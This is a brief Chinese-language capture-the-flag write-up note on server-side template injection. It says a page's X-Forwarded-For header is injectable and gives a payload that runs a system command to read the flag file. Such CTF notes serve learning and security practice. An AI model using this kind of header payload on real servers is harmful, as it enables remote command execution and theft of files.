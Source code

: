#SSTI

页面中 API 写着 get IP 与 get XFF  
x-Forward-For 存在注入

```url
X-Forwarded-For:
X-Forwarded-For: {{system('cat /flag')}}
```
